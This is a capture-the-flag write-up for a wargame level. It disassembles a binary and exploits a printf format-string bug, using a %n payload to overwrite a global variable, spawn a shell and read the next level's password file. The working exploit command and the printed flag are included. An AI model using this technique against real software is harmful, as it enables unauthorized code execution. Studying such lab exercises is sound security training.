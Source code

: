 Execute the *level3* binary:

```bash
./level3
abcd
```

```
```

> Note the *level3* binary read user input from stdin like the *level1* and *level2*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x0804851a <+0>:	    push   ebp
   0x0804851b <+1>:	    mov    ebp,esp
   0x0804851d <+3>:	    and    esp,0xfffffff0
   0x08048520 <+6>:	    call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

Check the *v* function called from the main:

```gdb
disass v
```

```gdb
Dump of assembler code for function v:
...
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>        ; get the user input
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>       ; print the user input
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40                     ; compare the "m" global variable to 64
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
...
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>       ; print "Wait what?!\n"
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>       ; execute "/bin/sh"

   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

> Exploit directly the user input is no longer possible because the *gets* function was remplaced by *fgets* wich limit the length input to prevent overflow.

The goal is to reach the system call instruction that open the shell with the right of the binary.

For reach this instruction, the comparaison of the global variable *m* with the value __64__ need to be equal.

```gdb
x 0x804988c
```

```
0x804988c <m>:	0x00000000
```

> By default, the value of the global variable *m* is 0 (using the __0x804988c__ address).

So it's necessary to set the value of this global variable *m* to __64__.

Note between the user input reading (*fgets*) and the comparaison of the global variable *m*, the call of the *printf* function.

After some search, note the *printf* function can [read and write](https://axcheron.github.io/exploit-101-format-strings/) the stack and specific address using the [%n](https://www.geeksforgeeks.org/g-fact-31/) special format specifier.

```
In C printf(), %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.
```

Because the string given to *printf* is the user input readed fromt *fgets* in a 512 bytes buffer stored on the stack frame, it's possible to access to the parameters localised on the stack before the *printf* call (and write in with the previous described *%n* special foramt specifier).

```bash
echo "AAAABBBBCCCC %p %p %p %p %p %p %p" | ./level3
```

```
AAAABBBBCCCC 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x42424242 0x43434343 0x20702520
```

> The fourth parameter of the *printf* is the first character of the user input buffer (because AAAA = 0x41414141, BBBB = 0x42424242 ...)

To write in the the global variable *m*:

- Put the address of the global variable *m* at the beginning of the user input (reversed because the stack is readed in the opposite way = \x8c\x98\x04\x08) for the *fgets* call.
- Add 60 padding characters/bytes so that the *%n* special format specifier of *printf* take the value 64 (the four bytes of the global variable *m* plus the 60 paddings bytes).
- Add the *%n* special format specifier with the *%4$...* permutation option for write its value (64) in the fourth parameter of printf which is the start of the user input buffer (starting by the address of the global variable *m* thanks to the step one).

```bash
(echo -e "\x8c\x98\x04\x08............................................................%4\$n" ; cat) | ./level3
cat /home/user/level4/.pass
```

> Use __cat__ to keep stdin open.

```
�............................................................
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
